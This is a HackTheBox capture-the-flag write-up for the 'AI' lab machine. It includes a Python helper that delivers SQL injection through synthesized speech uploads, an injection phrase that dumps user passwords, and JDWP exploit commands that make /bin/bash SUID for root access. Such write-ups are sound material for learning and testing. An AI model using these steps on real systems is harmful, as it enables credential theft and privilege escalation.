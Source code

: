 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/XQXTCiWEjGk/0.jpg
layout: post
media_subpath: /assets/posts/2020-01-25-ai-hackthebox
tags:
- hackthebox
- java debugging
- linux
- sql injection
- voice
title: AI @ HackTheBox
---
```


AI is a 30 point machine on HackTheBox that involves SQL injection via speech and abusing an exposed java debugging port.

{% youtube XQXTCiWEjGk %}

## Notes

SQL injection helper:

```
#!/usr/bin/env python
import subprocess
import requests
import shutil
import json
import sys
import re

msg = sys.argv[1]

# text to speech
headers = {'Content-type' : 'application/x-www-form-urlencoded'}
url = 'https://ttsmp3.com/makemp3_new.php'
r = requests.post(url, data={'msg': msg, 'lang':'Joey','source':'ttsmp3'}, headers=headers)

# download result
url = json.loads(r.text)['URL']
r = requests.get(url, stream=True)
with open('tmp.mp3', 'wb') as f:
    shutil.copyfileobj(r.raw, f)

# convert
subprocess.call(['ffmpeg', '-i', 'tmp.mp3',
                   'tmp.wav'])

# upload & check result
url = 'http://ai.htb/ai.php'
files = {'fileToUpload': open('tmp.wav','rb')}
r = requests.post(url, files=files, data={'submit':'Process It!'})
print(r.text)
```

Use helper to get the users password:

```
python3 inject.py 'open single kwote. union select password from users comment database'
```

Exploit jdwp (with port forwarded to localhost):

```
searchsploit -x jdwp
searchsploit -m exploits/java/remote/46501.py
python 46501.py -t localhost -p 8000 --cmd "chmod u+s /bin/bash"
curl http://127.0.0.1:8005
/bin/bash -p
```